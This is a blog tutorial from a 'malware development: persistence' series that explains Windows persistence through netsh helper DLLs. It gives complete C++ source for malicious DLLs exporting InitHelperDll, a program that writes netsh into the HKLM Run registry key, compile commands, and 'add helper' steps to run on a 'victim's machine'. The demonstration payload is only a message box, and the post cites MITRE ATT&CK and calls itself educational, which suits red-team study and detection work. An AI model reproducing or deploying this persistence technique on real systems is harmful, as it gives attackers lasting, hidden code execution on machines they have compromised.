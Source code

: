 ```yaml
---
title:  "Malware development: persistence - part 6. Windows netsh helper DLL. Simple C++ example."
date:   2022-05-29 10:00:00 +0600
header:
  teaser: "/assets/images/56/2022-05-29_15-24_1.png"
categories:
  - tutorial
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![pers](/assets/images/56/2022-05-29_15-24_1.png){:class="img-responsive"}    

This post is a next part of a series of articles on windows malware persistence techniques and tricks.    

Today I'll write about the result of my own research into another persistence trick: Netsh Helper DLL.    

### netsh

**Netsh** is a Windows utility that administrators can use to modify the host-based Windows firewall and perform network configuration tasks. Through the use of DLL files, Netsh functionality can be expanded.

This capability enables red teams to load arbitrary DLLs to achieve code execution and therefore persistence using this tool.
However, local administrator privileges are required to implement this technique.

### practical example

Let's go to consider practical example. First of all create malicious DLL:

```cpp
/*
evil.cpp
simple DLL for netsh
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2022/05/29/malware-pers-6.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

extern "C" __declspec(dllexport) DWORD InitHelperDll(DWORD dwNetshVersion, PVOID pReserved) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

Compile it:

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.cpp -fpermissive
```

![pers](/assets/images/56/2022-05-29_15-12.png){:class="img-responsive"}    

And transferred to the target victim's machine.

Netsh interacts with other components of the operating system via dynamic-link library (DLL) files. Each netsh helper DLL offers a comprehensive collection of features. The functionality of Netsh can be expanded using DLL files:

```powershell
reg query "HKLM\Software\Microsoft\NetSh" /s
```

![pers](/assets/images/56/2022-05-29_15-20.png){:class="img-responsive"}    

Then, the `add helper` can be used to register the DLL with the `netsh` utility:

```powershell
netsh
add helper Z:\2022-05-29-malware-pers-6\evil.dll
```

![pers](/assets/images/56/2022-05-29_15-23.png){:class="img-responsive"}    

![pers](/assets/images/56/2022-05-29_15-24.png){:class="img-responsive"}    

Everything is worked perfectly!

However, `netsh` is not scheduled to start automatically by default. Persistence on the host is created by creating a registry key that executes the application during Windows startup. This can be done immediately using the script below:

```cpp
/*
pers.cpp
windows persistence via netsh helper DLL
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2022/05/29/malware-pers-6.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // netsh
  const char* netsh = "C:\\Windows\\SysWOW64\\netsh";

  // startup
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"hack", 0, REG_SZ, (unsigned char*)netsh, strlen(netsh));
    RegCloseKey(hkey);
  }
  return 0;
}
```

As you can see it's similar to script from my post about [persistence via registry run keys](/tutorial/2022/04/20/malware-pers-1.html)

Check registry run keys:

```powershell
reg query "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /s
```

![pers](/assets/images/56/2022-05-29_15-18.png){:class="img-responsive"}    

Compile it:

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/56/2022-05-29_15-14.png){:class="img-responsive"}    

and run on victim's machine:

```powershell
.\pers.exe
```

![pers](/assets/images/56/2022-05-29_15-21.png){:class="img-responsive"}    

When the `add helper` command is executed to load a DLL file, the following registry key is created:

![pers](/assets/images/56/2022-05-29_15-25.png){:class="img-responsive"}    

But there is a caveat. The PoC's logic needs to be updated to create a new thread so that netsh can still be used while the payload is running. However, when netsh ends, so does your malicious logic.

So, let's try. Create new DLL (`evil2.cpp`):

```cpp
/*
evil2.cpp
simple DLL for netsh
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2022/05/29/malware-pers-6.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

DWORD WINAPI Meow(LPVOID lpParameter) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 1;
}

extern "C" __declspec(dllexport) DWORD InitHelperDll(DWORD dwNetshVersion, PVOID pReserved) {
  HANDLE hl = CreateThread(NULL, 0, Meow, NULL, 0, NULL);
  CloseHandle(hl);
  return 0;
}
```

Compile:

```bash
x86_64-w64-mingw32-gcc -shared -o evil2.dll evil2.cpp -fpermissive
```

![pers](/assets/images/56/2022-05-29_16-21.png){:class="img-responsive"}    

and run steps again:

```powershell
netsh
add helper Z:\2022-05-29-malware-pers-6\evil2.dll
```

![pers](/assets/images/56/2022-05-29_16-23.png){:class="img-responsive"}    

As you can see, everything is ok, `netsh` can still be used. And we can check registry key for correctness:    

```powershell
reg query "HKLM\Software\Microsoft\NetSh" /s
```

![pers](/assets/images/56/2022-05-29_16-23_1.png){:class="img-responsive"}    

Because it is based on the exploitation of system features, this type of attack cannot be easily mitigated with preventive controls.

[netsh](https://docs.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh-contexts)    
[MITRE ATT&CK: Netsh Helper DLL](https://attack.mitre.org/techniques/T1546/007/)    
[source code on github](https://github.com/cocomelonc/meow/tree/master/2022-05-29-malware-pers-6)    

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
